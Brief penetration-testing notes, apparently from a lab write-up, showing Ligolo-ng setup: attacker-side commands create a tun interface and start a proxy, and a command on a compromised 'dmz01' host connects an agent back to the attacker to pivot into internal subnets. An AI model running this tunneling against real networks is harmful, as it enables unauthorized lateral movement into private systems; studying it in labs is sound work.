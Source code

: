 - Run on attacker
```
sudo ip tuntap add user rohaki mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

- Run on dmz01 
```
./agent -connect $tun0_ip:11601 -ignore-cert
```

- Run on attacker
```
sudo ip route del 172.16.0.0/24
sudo ip route del 172.18.0.0/24
sudo ip route del 172.16.8.0/24
```
